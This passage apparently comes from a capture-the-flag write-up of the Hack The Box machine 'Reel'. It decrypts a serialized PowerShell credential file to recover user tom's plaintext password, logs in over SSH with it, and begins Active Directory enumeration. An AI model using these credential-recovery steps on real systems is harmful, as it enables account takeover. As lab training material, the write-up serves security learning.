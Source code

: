 ```powershell
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

It appears to be a PowerShell `PSCredential` object for a user `htb\tom` serialized into XML. Deserialize it into a usable `PSCredential` object.

```powershell
PS C:\users\nico\desktop> $cred = Import-Clixml cred.xml
PS C:\users\nico\desktop> $cred

UserName                                                                                                       Password
--------                                                                                                       --------
HTB\Tom                                                                                    System.Security.SecureString

```

Use the commands from [this StackOverflow post](https://stackoverflow.com/questions/28352141/convert-a-secure-string-to-plain-text) to recover `htb\tom`'s plaintext password.

```powershell
PS C:\users\nico\desktop> $bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($cred.Password)
PS C:\users\nico\desktop> [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
1ts-mag1c!!!
```

`htb\tom`'s password is `1ts-mag1c!!!`. Use this credential to access the machine via SSH.

```bash
$ ssh tom@10.129.1.151
Enter password:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

tom@REEL C:\Users\tom>
```

---

## Domain Enumeration as `tom`

`tom`'s Desktop contains an interesting folder, `AD Audit`, that contains the following note:

```powershell
PS C:\Users\tom\Desktop\AD Audit> cat note.txt
Findings:

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).

Maybe we should re-run Cypher query against other groups we've created.
```
